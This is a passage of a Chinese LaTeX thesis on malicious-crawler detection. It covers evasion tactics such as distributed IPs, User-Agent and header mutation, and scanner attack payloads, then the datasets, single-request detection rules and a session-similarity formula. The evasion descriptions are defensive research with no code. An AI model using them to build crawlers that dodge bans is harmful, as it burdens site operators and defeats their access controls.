  
\includegraphics[width=0.68\textwidth]{images/selenium.png}
  \caption{selenium架构图}
  \label{fig:selenium}
\end{figure}


\section{对抗性爬虫行为}
在爬虫技术与反爬虫技术的长期对抗中,为了对抗传统反爬虫技术的检测与阻遏,一部分爬虫“进化”出了相关反制措施,这些反制措施极大地干扰了传统反爬虫系统的正常运作,使得传统爬虫检测机制的漏检率和误检率居高不下。常见的爬虫对抗行为如下所示:

\begin{itemize}
\item[1)] 恶意攻击载荷:\\
部分漏洞扫描爬虫可能会尝试使用已知或未知漏洞的攻击载荷,对服务器上的web服务进行恶意扫描和攻击尝试。部分存在弱点的web服务器甚至反爬虫系统在相应的攻击载荷下,可能会产生程序奔溃的问题,有时甚至会泄露服务器上的敏感信息,从而干扰反爬虫系统的正常运作。此外,因为漏洞攻击使用的攻击载荷,目标URL地址等相关特征,在不同的漏洞之间存在很大的差异,因此,在尝试对漏洞扫描爬虫进行session分类时,往往会与实际session结果产生较大出入,为进一步抽取session特征的工作设置了极大的阻碍。

\item[2)]  分布式爬取:\\
我们观察到,部分爬虫会使用不同的IP地址对同一个网站进行爬取。使用了分布式爬取技术的爬虫,一部分来自于主流的搜索引擎爬虫,这些搜索引擎爬虫在爬取网站后,会使用一定算法计算网站的相关权重,该权重将作为该搜索引擎搜索结果排序的重要参考,搜索引擎爬虫使用分布式爬取技术的主要原因在于保证并发爬取时的负载均衡\upcite{evans2007analysing}。如图\ref{fig:distributed-crawler}所示,百度爬虫使用来自于同一个IP C段但不同的IP地址向目标服务器发起请求。另外,一部分爬虫使用分布式爬取技术主要是为了逃避反爬虫系统的封禁\upcite{shkapenyuk2002design}。传统的、粗糙的反爬虫系统很可能会对来自于单个IP的请求序列进行审计,检测恶意爬取的行为,并按照IP地址进行封禁。而使用了分布式爬取技术后,因为所有的请求均匀分布在不同的IP地址上,单个IP地址上的请求序列难以触发报警规则(如请求频率限制规则),即使在一个IP地址触发报警规则被封禁后,仍有其他的备用的IP地址可以进行爬取。此外,尽管这些请求来自于同一个访问session,但是因其存在不同的ip地址,使用传统的session分类方法,往往会将其分类到不同的session中,也会导致提取session特征不准确的问题。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/distributed_crawler.png}
  \caption{来自百度的分布式爬虫}
  \label{fig:distributed-crawler}
\end{figure}


\item[3)] HTTP字段特征变异:\\
HTTP字段特征是从HTTP请求中抽取而来的特征,这些特征往往因浏览器类型和版本,操作系统版本以及用户自定义配置的不同,存在一定的差异,可以被用于作为爬虫识别和静态的session分类的参考。但是,因为这些特征的修改较为简单,部分爬虫会主动修改它们,甚至是实时地变异这些字段特征,来绕过反爬虫系统的检测。最常被修改、变异的字段是HTTP头部的User-Agent字段,该字段反映了请求者使用的web driver的版本类型以及操作系统版本相关的信息,包含较多的信息量。此外,部分爬虫还会对accept-language等字段进行变异,并结合分布式爬取技术,以遏制session分类准确率。
\end{itemize}



\section{小结}
本章节的内容主要通过对于目前主流爬虫种类,爬行策略、自动化方案以及对抗性爬虫行为的介绍,来启发在我们对于爬虫识别和爬虫对抗部分的研究,只有知己知彼,我们才能制定出有实际应用价值的爬虫识别和爬虫对抗机制。此外,本部分的研究工作,也将在系统的实现过程中转化为多策略爬虫工具的理论依据,用于保证多策略爬虫工具的有效性、真实性和完备性。

\chapter{恶意爬虫检测技术研究}
本章节中,我们将会具体介绍如何通过单粒度模式检测规则以及session粒度模式检测规则来识别出爬虫。在这些检测规则中,我们会保留一部分传统的、资源损耗小的单粒度检测规则,并结合我们在web安全中积累的经验,总结出的一套基于session粒度的检测规则,共同实现爬虫检测功能。为了避免爬虫对抗行为对session分类的干扰,我们还使用了静态session分类以及基于浏览器指纹技术的动态session分类,保证了session的纯净度。除此之外,基于人类隐式浏览行为的爬虫检测技术也是本章节的亮点。我们将利用javascript来抽取人类浏览行为中的特征,并融合taint-link技术,以人类浏览网站时的一些隐式特点辅助识别爬虫。在最后的部分,我们将参考人工设定的规则和阈值来灵活地进行普通爬虫和恶意爬虫的分类。

\section{爬虫样本与训练数据}
为了检验和评估不同的方案下,爬虫识别算法的检测率和效率,我们使用了三个不同的数据集对爬虫识别算法进行评估。前两个数据集分别为:
\begin{itemize}
\item 清华大学某网站访问数据集 (数据集a)
\item 360天眼恶意攻击流量数据集 (数据集b)
\item 多策略爬虫工具生成数据集 (数据集c)
\end{itemize}

两个数据集的量级均在在10w+左右,其中数据集a记录的是清华大学某重要网站在某时间段内的所有请求。通过基于User-Agent的传统方法针对数据集a进行清洗,我们发现基于User-Agent的方法识别出请求中的24.3\%为来自各类爬虫的请求,爬虫的组成成分主要是来自于各大搜索引擎的爬虫以及专门针对清华网站的爬虫,如图\ref{fig:crawlers}所示。因为该数据集几乎不存在对抗样本,因此我们使用IP作为session分类的标准,对全部的10w个请求进行session分类,在去除一些超长和超短的session之后,我们可以得到了如图\ref{fig:session_len}的session的长度分布。

\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/THU_crawler_types.png}
  \caption{清华大学某网站爬虫组成}
  \label{fig:crawlers}
\end{figure}

\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/session_len_10_100.png}
  \caption{清华大学某网站访问session长度分布图}
  \label{fig:session_len}
\end{figure}

数据集b来自于360天眼捕获的恶意攻击的流量,这些请求数据绝大部分是互联网上的漏洞扫描爬虫发送的,带有明显的攻击载荷的特征。和传统的爬虫访问流量不同,这些恶意攻击的请求使用了大量的对抗性策略,例如分布式爬取以及HTTP字段变异,通过这些手段,来干扰爬虫识别时的session分类。这对已有论文中,使用session粒度的爬虫检测方法提出了巨大的挑战。该数据集主要应用于验证本文中的session分类方法在遇到对抗性策略的爬虫时,仍能够保持较高的session识别准确率。

但是,静态的访问数据并不能满足我们的需求,因为静态的数据中,缺乏爬虫与服务器之间的交互信息,而在真实情境下,服务器可以通过改变返回的页面中的URL地址,以及返回的javascript代码来影响甚至操纵爬虫的行为。因此,为了模拟真实网络环境中的爬虫请求,我们还收集了一系列的爬虫策略,并基于这些策略,生成了近千种不同类型的网络爬虫,我们称之为多策略爬虫工具。我们考虑到的爬虫特性有:
\begin{itemize}
\item 爬虫的目标数据
\item 爬虫的请求速率
\item 爬虫的遍历算法
\item 爬虫的驱动程序
\item 对抗性的爬虫策略
\end{itemize}

这些不同类型的爬虫将会产生大量普通的爬虫请求以及具有对抗性的爬虫请求,这些爬虫请求在产生的过程中会记录真实的session id用以检测session分类的效果,并且这些爬虫均具有能够执行服务器反馈的javascript的特性,因此也可以用于收集不同webdriver下的动态指纹。这些爬虫产生请求将会作为本研究的第三个数据集(数据集c)。

\section{单粒度模式检测规则}
单粒度模式检测指的是在不使用session信息以及其他动态信息的同时,仅仅利用单个HTTP请求中所有的可用信息,来判定该请求是否源于爬虫的技术。该技术也是应用最广泛、性能消耗最少的爬虫检测方法。因其对整个系统并没有过多性能损耗,在我们的模型和最终的系统中,我们仍然保留单粒度模式检测规则。

在我们的模型中,我们对如下内容进行检测:

\begin{itemize}
\item[1)] User-Agent字段: User-Agent字段主要是访问者的浏览器或者相应的HTTP函数库标识当前访问者所使用的agent的一个重要字段。大部分的普通爬虫,都会在其User-Agent字段放置与该爬虫有关的信息,通过该信息,我们可以快速地筛选出这些爬虫。但是,由于User-Agent字段是由用户发送的,用户可以随意修改该字段来达到隐蔽真实User-Agent的目的,因此,该字段是不可信的。在我们的模型中,通过参考已有的爬虫数据库,我们采用如图\ref{fig:ua}的关键字来处理user-agent字段。
    
\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/crawler_key_words.png}
  \caption{User-Agent关键字}
  \label{fig:ua}
\end{figure}

    
\item[2)] HTTP 请求方法:HTTP请求方法指的是浏览器等在访问web服务器时,于HTTP请求行中设置的请求方法。HTTP协议支持的请求方法有:HEAD,GET,POST,PUT,OPTIONS等,而一般情况下,浏览器所使用的请求方法只有GET,POST,但是大量的爬虫为了爬取效率常常会使用HEAD方法,部分漏洞扫描器则会使用PUT方法来攻击一些有弱点的服务器\upcite{put}。因此,对HTTP请求方法进行判断也能够识别出一部分的爬虫。

\item[3)] 特殊的URL地址:部分网站会在网站的web根目录下放置robots.txt,该文件是web服务商与普通爬虫之间的协议文件,主要的作用便是为爬虫提供一个爬取的规范和限制。如果请求中出现了该URL地址,我们即可将该请求标记为爬虫请求。除了robots.txt, 我们在启用后文中出现的taint link技术时,也可能出现会触发一些异常URL地址的访问,我们可以将这些标记为爬虫。

\item[4)] HTTP请求中的恶意攻击载荷:在真实的网络环境中,存在着大量漏洞扫描爬虫,这些爬虫发送的请求中往往带有恶意的攻击载荷,通过建立针对攻击载荷的数据库,我们可以很容易地过滤出这些爬虫。此处,我们参考的攻击载荷数据库来自于360天眼中的规则\upcite{malicious}。

\item[5)] HTTP请求头部字段的完备性:通常而言,大部分静态爬虫的主体(如curl工具以及一些基于python-requests库的简单爬虫)相对于浏览器而言功能复杂度较低,这也意味在数据交换中,他们使用的HTTP头部功能字段更少。如图\ref{fig:curl}是来源curl的爬虫的访问请求,以及使用chrome的访问请求的完整HTTP数据包对比。
\end{itemize}

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/http_request_contrast.png}
  \caption{curl与chrome的访问请求对比}
  \label{fig:curl}
\end{figure}


由此可以看出两者的HTTP字段的复杂度相差很大。利用这点,我们可以针对一些浏览器常用的HTTP头部字段进行检查,来过滤出一部分简单的爬虫。在我们的模型中,我们使用的必要字段是:
Host,Connection,User-Agent,Accept,Accept-Language,Accept-Encoding
没有使用这些字段的请求均会被标记为爬虫。

我们在数据集a上使用单粒度模式检测规则的检测效果如表\ref{tab:single-effect}所示。

\centerline{}
\begin{table}[h]
  \caption{单粒度模式检测规则效果}
  \label{tab:single-effect}
  \centering
\begin{tabular}{|p{2cm}<{\centering}|p{2cm}<{\centering}|p{3cm}<{\centering}|p{2cm}<{\centering}|p{3cm}<{\centering}|p{2cm}<{\centering}|}
    \hline
    \textbf{请求总数} &  \textbf{UA检测数}  & \textbf{ HTTP method检测数} &  \textbf{URL规则检测数} &   \textbf{恶意规则检测数}  &  \textbf{头部完备性}  \\
    \hline
 100000  &  24323     &     255       &        157      &   2816 & 数据缺失 \\

\hline
    \end{tabular}
\end{table}
\centerline{}


\section{session粒度模式检测}
通过单粒度模式检测,我们可以过滤出互联网上大部分的爬虫。但是,爬虫与反爬虫本质上是一种博弈对抗,一旦爬虫采用一些字段修改和隐藏的方法,去修改我们检查的HTTP特征,那么传统的单粒度模式检测就很难发挥应有的作用,因此,我们还需要将我们检测的重点转向那些更难被修改却更加显著的特征上,而这些特征主要富集在session粒度层次上。但是,大部分的关于爬虫识别的论文在session分类上都语焉不详,部分论文直接将来自于同IP的请求划分为同一个session,而另一部分论文直接使用cookie来追踪浏览器的session。这种处理显然是无法准确对恶意爬虫进行session分类的,恶意爬虫通常会使用分布式的IP地址,并对cookie部分的字段内容进行伪造,从而欺骗爬虫识别系统。在本节我们将介绍本研究在session分类上采用的具体策略和方案。

\subsection{静态session分类}
在session分类的处理上,本研究首先采用HTTP字段静态特征作为session分类的依据。主要采用的静态特征有:User-Agent字段,URL请求路径,其他header字段及header字段键与其排列顺序。引入header字段排列的主要是基于这样的一个直觉:如果目标爬虫使用了基于HTTP header字段变异的对抗行为,虽然会改变字段具体的值,但可能忽略对字段键的变异,给该特征赋予较高的权重,能够有效地在此类对抗行为下正确地分类session。在计算两个HTTP请求的相似度时,我们采用如下的计算函数:

\begin{equation}
score = \frac {W_{ua} * M_{ua} + W_{url} * M_{url} + W_{other} * M_{other} + W_{order} * M_{order}} {C_{field} + 2}
\end{equation}


此处的W为权重相关的系数,M表示相关字段是否匹配,匹配取值为1,反之取值为0,$C_{field}$ 表示相关字段的数目,用以避免字段过多的请求出现评分过高的情况。此外,我们还额外设置相应的阈值,一旦相似度超过该阈值,我们即可将两个HTTP请求归类为同一个session。我们在数据集a上测试我们的算法,并使用梯度下降的方法,求得这些参数的较优解。图\ref{fig:gradient}是我们使用该静态分类方法的效果图(梯度下降图),我们最终采用的参数取值,其分类准确率可以达到88\%。

\centerline{}
\begin{figure}[!h]
  \centering
